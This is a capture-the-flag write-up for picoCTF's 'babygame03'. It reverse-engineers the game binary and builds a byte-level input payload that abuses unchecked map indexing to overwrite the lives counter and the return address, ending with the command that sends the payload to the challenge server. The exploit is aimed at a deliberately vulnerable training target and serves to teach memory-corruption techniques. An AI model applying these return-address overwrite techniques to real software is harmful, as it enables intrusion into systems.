


# babygame03 #

## Overview ##

400 points
 
Category: [Binary Exploitation](../)

Tags : `#binaryexploitation #writewhatwhere #bufferunderflow #returnaddress #outofbounds #integermath`
 
## Description ##
 
Break the game and get the flag.

Welcome to BabyGame 03! Navigate around the map and see what you can find! Be careful, you don't have many moves. There are obstacles that instantly end the game on collision. The game is available to download. There is no source available, so you'll have to figure your way around the map.

## Approach ##

This challenge is a variant of [babygame01](https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/babygame01/babygame01.md) and [babygame02](https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/babygame02/babygame02.md) from [picoCTF 2023](https://github.com/snwau/picoCTF-2023-Writeup), building upon those challenges. It's worth getting familair with these if you haven't already, as there is some reusing of knowledge and techniques when attacking this challenge.

Running the `game`, we see 'BabyGame 03' now limits the number of moves when can make and adds a level mechanism to the game, which forms one of our primary win conditions (more on that later).

Analysis began by disassembling the `game` binary with [Ghidra](https://ghidra-sre.org) and searching for any occurances of the `"flag"` string. That quickly brought us to a `win()` function that opens a `flag.txt` file, reads its contents and displays it, but only when parameter `curr_level_ptr` passed to `win()` function by reference is equal to `5`, otherwise nothing is displayed. This parameter was later determined to be the current level of the game, corresponding with local variable `curr_level` in `main()`.

    void win(int *curr_level_ptr)
    {
      char local_4c [60];   /* buffer for flag file contents */
      FILE *local_10;       /* flag file handle */
      
      local_10 = fopen("flag.txt","r");
      if (local_10 == (FILE *)0x0) {
        puts("Please create \'flag.txt\' in this directory with your own debugging flag.");
        fflush(stdout);
        exit(0);
      }
      fgets(local_4c,0x3c,local_10);
      if (*curr_level_ptr == 5) {
        /* WIN CONDITION! */
        printf(local_4c);
        fflush(stdout);
      }
      return;
    }

Viewing references to the `win()` function, we can see that it's only called from one location, the end of the `main()` function (shown below), after the `do-while` loop and prior leaving `main()`.

After some analysis of the disassembled C code and renaming important variables to better describe their purpose after they have been gleaned, we start to piece together our win conditions.

    undefined4 main(void)
    {
      int iVar1;
      int curr_level;               // [EBP-0xAAC]
      player_t player;              // [EBP-0xAA8]
      char map_buf [2700];          // [EBP-0xA99]
      char move_cmd_input;          // [EBP-0x00D]
      int local_14;
      undefined *local_10;

      local_10 = &stack0x00000004;
      init_player(&player);
      curr_level = 1;
      local_14 = 0;
      init_map(map_buf,&player,&curr_level);
      print_map(map_buf,&player,&curr_level);
      signal(2,sigint_handler);
      do {
        iVar1 = getchar();
        move_cmd_input = (char)iVar1;
        move_player(&player, (int)move_cmd_input, map_buf, &curr_level);
        print_map(map_buf, &player, &curr_level);
        /* LEVEL WIN CONDITION: player is at {X,Y} = {89, 29} *AND* 
           we are currently not at Level #4 */
        if (((player.y_pos == 0x1d) && (player.x_pos == 0x59)) && (curr_level != 4)) {
          puts("You win!\n Next level starting ");
          local_14 = local_14 + 1;
          curr_level = curr_level + 1;
          init_player(&player);
          init_map(map_buf,&player,&curr_level);
        }
        /* GAME WIN CONDITION: player is at {X,Y} = {89, 29} *AND* 
           current level is #5 *AND* local_14 is 4 */
      } while (((player.y_pos != 0x1d) || (player.x_pos != 0x59)) || 
               ((curr_level != 5 || (local_14 != 4))));
      win(&curr_level);
      return 0;
    }

The `init_map()` and `print_map()` functions show us the purpose of a number of the local variables that are passed by reference to these functions. One local variable in particular, I've renamed `player` is passed to many functions and is used as a `struct` in the form:

    typedef struct
    { 
      int y_pos;       /* player[0] */
      int x_pos;       /* player[1] */
      int num_lives;   /* player[2] */
    }
    player_t;

So putting together our win condition..

- Win the current level by moving our character to reach the opponent at an `{X,Y}` position of `{89,29}` on the map.
- Continue to win levels until we reach level `#5` in the game, to satisfy `win()` condition and display the flag.

HOWEVER there are a few traps (that you may have already spotted) that prevent these deceptively simple win conditions from being met so easily:

- Firstly, `player.num_lives` is set to `50` within `init_player()` and reset at the start of each level. `init_player()` also positions us at `{X,Y}` of `{4,4}`, meaning it will take more than `50` moves to get to our opponent at `{X,Y}` of `{89,29}` to even be able to win a single level.
- The `(curr_level != 4)` condition in the level win conditions of `main()`, prevents execution of the level win logic if we are currently on Level `#4`, so we can't actually progress to level `#5`, which is needed by the game win conditions.
- As well as the `curr_level` variable there is also another "guard" variable that is used by the game win condition logic, the name of which is left as the default variable name from dissassembly, `local_14` for the purposes of this write-up, which gets incremented in conjunction with `curr_level` as part of level winning logic.

Analysing the `move_player()` function we can see that it exhibits the same behaviour as [babygame02](https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/babygame02/babygame02.md), with the exploitable `map_buf` array indexing as a result of the user controller player position in `{X,Y}` coordinates, that are not bounds checked (can be negative), to form a "Write-What-Where" primitive by manipulating the player position to construct an under/overflow we require. Refer to the previous `babygame` write ups for a more detailed description of how this is exploited.

The other difficulty is that this version of `move_player()` also clears the previous player position by writing a '`.`' `(0x2e)` character to clear the player position within the map buffer before the next move instruction is actioned. This prevents us simply from exploiting the "Write-What-Where" to write our target values in `curr_level` and `local_14` (values `5` and `4` respectively), as the first one will be rewritten with '`.`' `(0x2e)` character when we attempt to write the second.

    void move_player(player_t *player_ptr, char move_cmd_input, char *map_buf, int *curr_level_ptr)
    {
      int iVar1;
      
      if (player_ptr->num_lives < 1) {
        puts("No more lives left. Game over!");
        fflush(stdout);
        exit(0);
      }
      if (move_cmd_input == 'l') {
        iVar1 = getchar();
        player_tile = (undefined)iVar1;
      }
      if (move_cmd_input == 'p') {
        solve_round(map_buf,player_ptr,curr_level_ptr);
      }
      *(undefined *)(player_ptr->y_pos * 0x5a + map_buf + player_ptr->x_pos) = 0x2e;
      if (move_cmd_input == 'w') {
        player_ptr->y_pos = player_ptr->y_pos + -1;
      }
      else if (move_cmd_input == 's') {
        player_ptr->y_pos = player_ptr->y_pos + 1;
      }
      else if (move_cmd_input == 'a') {
        player_ptr->x_pos = player_ptr->x_pos + -1;
      }
      else if (move_cmd_input == 'd') {
        player_ptr->x_pos = player_ptr->x_pos + 1;
      }
      if (*(char *)(player_ptr->y_pos * 0x5a + map_buf + player_ptr->x_pos) == '#') {
        puts("You hit an obstacle!");
        fflush(stdout);
        exit(0);
      }
      *(undefined *)(player_ptr->y_pos * 0x5a + map_buf + player_ptr->x_pos) = player_tile;
      player_ptr->num_lives = player_ptr->num_lives + -1;
      return;
    }

The restriction of player lives can also be seen within `move_player()`, ensuring the number of lives is greater than zero before attempting a move, otherwise exiting the game. The number of lives is decremented each time the player is moved before returning from the function.

### Plan of Attack : ###

1. Use the identified exploit to modify `player.num_lives` to give ourselves the freedom to move around effectively unhindered.
2. Solve the level (move our character to `{X,Y}` of `{89, 29}`) in the bottom right hand corner, to progress to the next level.
3. Repeat steps `#1` and `#2` until we reach level `#4`.
4. This time after freeing up our movement (step `#1`) we change our approach and use the exploit again to patch our return address thats on the stack, such that when we return from the `move_player()` function call, we jump past the level win condition logic and instead into level win code itself, bypassing the (`curr_level != 4`) check. At this point we have now met all of the level based win conditions.
5. Finally we perform another patching of the return address from `move_player()` to jump past the `do-while()` conditions, to execute `win()`.   

I spent way too long during the competition trying to figure out steps `#4` and `#5`, trying all sorts of complicated logic to meet all the carefully constructed level and game win conditions, when the answer finally came with the return-jumps patching.

### Attack Construction : ###

Constructing the attack piece by piece for the steps outlined above in our plan.

Firstly, inspection of the stack frame of `main()`, reconstructed for visualisation using both `gdb` and the [Ghidra](https://ghidra-sre.org) disassembly to find the layout of the important local variables for use in calculating target offsets in the exploits :

              (stack top - lower address)
    
                |----------------------| ($ESP)
                .                      .
    0xffffcabc  | curr_level           | [$EBP - 0xAAC]  int
    0xffffcac0  | player.y_pos         | [$EBP - 0xAA8]  int
    0xffffcac4  | player.x_pos         | [$EBP - 0xAA4]  int
    0xffffcac8  | player.num_lives     | [$EBP - 0xAA0]  int
    0xffffcacc  | map_buf (0xffffcacf) | [$EBP - 0xA99]  char[2700] 
                .                      .
                .                      .
                .                      .
                | move_cmd_input       | [$EBP - 0x0D]   char
                | local_14             | [$EBP - 0x0C]
                | input_char           | [$EBP - 0x09]   char
    0xffffd560  | Saved $ECX           | [$EBP - 0x08]
    0xffffd564  | Saved $EBX           | [$EBP - 0x04]
    0xffffd568  | Previous $EBP        | <--- $EBP
                |----------------------|
                |                      |

#### Step #1 : Increasing Lives (Moves) ####

To get around the movement restriction the exploit is used to modify the value of `player.num_lives`, remembering after writing a byte it will be cleared with the value of `0x2e` on the next move, so we want to hit a higher order byte to give ourselves plenty of lives, such that it's no longer a limited resource and allows us freedom to move around.

Our target will be address `0xffffcacf` (third byte of `player.num_lives`), this is an offset of `-5` from the start of the `map_buf` (`0xffffcacf`). 

Meaning we must construct an underflow of 5 bytes by solving the `map_buf` array dereferencing for `X`, given our target offset and a `Y` position of `-1`.

We want to write to a single targetted byte outside of `map_buf` to avoid unnecessary corruption, so we'll set the required `X` position first to achieve the target offset, and then move `Y` to a position of `-1`.

      offset = (Y * 90) + X
          -5 = (-1 * 90) + X
           X = -5 + 90
           X = 85 

Given a starting position of `{4, 4}` we can move left (`a` command) 9 times to wrap around back to the right hand side and up one row, to an `X` position of `85`. We then move up (`w` command) 4 times to reach a `Y` of `-1`. We then move down (`s` command) 1 row back to within the valid region of `map_buf`.

For the corresponding input string `"aaaaaaaaawwwws"` we have successfully increased our number of lives from the starting `50`. 

    Player position: 0 85
    Level: 1
    End tile position: 29 89
    Lives left: 3014686

#### Step #2 : Solving the Level ####

Solving the level after freeing our movement is now trivial, using the movement commands discovered in `move_player()`, the `p` command calls the `solve_round()` function to automate the movement of our player character to the opponents end position, winning the level.

#### Step #3 : Reaching Level 4 ####

To reach level `#4` we can simply repeat the process above process for Steps `#1` and `#2` another two times, simplified to the following input form:

    $ echo -n -e $(python3 -c 'print("aaaaaaaaawwwwsp"*3)') | ./game

    .... (snip) ....
    
    You win!
     Next level starting 
    
    .... (snip) ....
    
    Player position: 4 4
    Level: 4
    End tile position: 29 89
    Lives left: 49
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ....@.....................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    ..........................................................................................
    .........................................................................................X

#### Step #4 : Ret-Jump to Level #5 ####

The [Ghidra](https://ghidra-sre.org) disassembly was used to find a suitable target for the return jump from `move_player()`.

There is a number of addresses we could use, as long as the difference in the original return address and our target was confined to a single byte change, due to the single byte restriction of the exploit. 

`0x0804997f` was the return address I targetted, to return straight into the "you win, next level" processing, which can be seen in the disassembly below.

Now we need to find where the return address of `main()` is on the stack during the call to `move_player()`, where the return address is `0x0804992c`.

    08049926 50                 PUSH       EAX
    08049927 e8 07 fc ff ff     CALL       move_player
    0804992c 83 c4 10           ADD        ESP,0x10

Reconstructing the stack within `move_player()` to determine the offset from the start of `map_buf` to the Least Significant Byte (LSB) of the return address:

                (stack top - lower address)
    
                |                         |
    0xffffca98  | old EBP                 | <--- $EBP
                |-------------------------|
    0xffffca9c  | return address          |  = `main()+187` : 0x804992c
                |-------------------------|
    0xffffcaa0  | param1 - &player        |
    0xffffcaa4  | param2 - input ch       |
    0xffffcaa8  | param3 - map_buf        |
    0xffffcaac  | param4 - &curr_level    |
                |-------------------------|
                .                         .
                .-------------------------.  main() stack frame 
                .                         . 
    0xffffcabc  | curr_level              | int
    0xffffcac0  | player.y_pos            | int
    0xffffcac4  | player.x_pos            | int
    0xffffcac8  | player.num_lives        | int
    0xffffcacc  | map_buf (0xffffcacf)    | char[2700] 

The return address can be seen on the stack at `0xffffca9c` which is at an offset of `0xffffca9c - 0xffffcacf = -51` from `map_buf`. Just like in Step #1 we solve the `map_buf` array dereferencing for our required `X` position given our offset and `Y = -1`.

      offset = (Y * 90) + X
         -51 = (-1 * 90) + X
           X = -51 + 90
           X = 39

So after using Step #1 again to free our movement, resulting in our player position being `{X,Y} = {85,0}`. We move right 44 times wrapping back to the left hand side resulting in our position being `{X,Y}={39,1}`.

Now we can move up one ('w' command) and modify our player character using the 'l' command to the LSB of our desired return address ('0x7f'), before moving up once more to complete the underflow, patching the return address and dropping into the "you win, next level" processing, bypassing the conditional.

The following command will generate the required input string for Step #4:

    $ echo -n -e $(python3 -c 'print("aaaaaaaaawwwws" + "d"*44 + "wl\\x7fw")')

#### Step #5 : Ret-Jump to WIN ####

Now with the win condition all set for the successful dropping of the flag in `win()`, we just need to break out of the `do-while()` loop now in `main()`, which we achieve with another return-jump from `move_player()` to after all the `while()` condition logic, the address I targetted was `0x080499fe`.

Using the same attack as Step #4 with the LSB of the target return address modified to our new target (`0xfe`) we have the following input :

The following command will generate the required input string for Step #5:

    $ echo -n -e $(python3 -c 'print("aaaaaaaaawwwws" + "d"*44 + "wl\\xfew")')

## Solution ##

It may not be the most elegant of final solutions, but this is how the challenge was solved during the competition, as the plan of attack was tested and verified in stages before bringing it all together.

    # (steps #1 - #3) free our movement (increase lives) and solve the first three levels
    $ echo -n -e $(python3 -c 'print("aaaaaaaaawwwwsp"*3)') > part1.txt

    # (step #4) free our movement, then construct a return-jump from 
    # move_player() into the "you win, starting next level" logic.
    $ echo -n -e $(python3 -c 'print("aaaaaaaaawwwws" + "d"*44 + "wl\\x7fw")') > part2.txt

    # (step #5) free our movement, then construct a return-jump from 
    # move_player() to win() instead of the while() conditional logic
    $ echo -n -e $(python3 -c 'print("aaaaaaaaawwwws" + "d"*44 + "wl\\xfew")') > part3.txt

    # chain it all together to form the final input payload
    $ cat part1.txt part2.txt part3.txt > final.txt

The final input payload is as follows after concatenation of the parts:

    $ hd final.txt 
    00000000  61 61 61 61 61 61 61 61  61 77 77 77 77 73 70 61  |aaaaaaaaawwwwspa|
    00000010  61 61 61 61 61 61 61 61  77 77 77 77 73 70 61 61  |aaaaaaaawwwwspaa|
    00000020  61 61 61 61 61 61 61 77  77 77 77 73 70 61 61 61  |aaaaaaawwwwspaaa|
    00000030  61 61 61 61 61 61 77 77  77 77 73 64 64 64 64 64  |aaaaaawwwwsddddd|
    00000040  64 64 64 64 64 64 64 64  64 64 64 64 64 64 64 64  |dddddddddddddddd|
    *
    00000060  64 64 64 64 64 64 64 77  6c 7f 77 61 61 61 61 61  |dddddddwl.waaaaa|
    00000070  61 61 61 61 77 77 77 77  73 64 64 64 64 64 64 64  |aaaawwwwsddddddd|
    00000080  64 64 64 64 64 64 64 64  64 64 64 64 64 64 64 64  |dddddddddddddddd|
    *
    000000a0  64 64 64 64 64 77 6c fe  77                       |dddddwl.w|
    000000a9

Solving the challenge is just a matter of using the constructed final input payload as input to the game.

    $ cat final.txt | nc rhea.picoctf.net 58756

    .... (snip - lots of game output) ....

    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
